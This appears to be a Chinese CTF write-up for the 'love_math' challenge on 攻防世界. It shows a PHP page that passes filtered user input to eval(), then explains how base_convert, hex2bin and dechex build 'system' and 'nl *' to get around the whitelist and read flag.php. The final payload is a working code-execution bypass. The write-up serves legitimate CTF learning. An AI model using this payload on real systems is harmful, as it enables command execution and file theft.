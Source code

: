 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   love_math   # 标题 
 subtitle:  攻防世界 #副标题
 date:    2020-08-14    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - CTF

--- 
```


题目描述：解密

打开环境，

![dPckI1.png](https://s1.ax1x.com/2020/08/14/dPckI1.png)

```
 <?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}

```

同时扫描目录发现`flag.php`

![dPgmYq.png](https://s1.ax1x.com/2020/08/14/dPgmYq.png)

复现要求：php的版本要在7.1.20及以上

大概就是：传参c的长度不能大于80，然后黑名单过滤空格、制表符、换行、单双引号、反引号、[]；
白名单要求输入规定的数学表达式

我们发现base_convert函数可以返回任意字母，需要注意它无法返回_ *等特殊字符。

借助getallheader()来控制请求头，通过请求头的字段读取flag.php。

这里也就类似于$_GET，$_POST之类的，但是因为只能控制小写字符，所以大写的直接被pass掉。

getallheader()返回的是数组，要从数组里面取数据用array['xxx'],但是无奈[]被waf了,因为{}中是可以带数字的，这里用getallheader(){1}可以返回自定义头1里面的内容。

最后的payload如下：

	($pi=base_convert)(1751504350,10,36)($pi(1438255411,14,34)(dechex(1852579882)))


base_convert(1751504350,10,36) -------->system

$pi(1438255411,14,34) ------>hex2bin

dechex(1852579882) ----->将十进制转为十六进制：6e6c202a（字符串形式是：nl *）

nl *可以读取当前目录下的所有文件；

参考：

https://blog.csdn.net/weixin_44897902/article/details/102548706

https://www.cnblogs.com/sijidou/p/10802475.html

https://www.runoob.com/php/php-ref-math.html
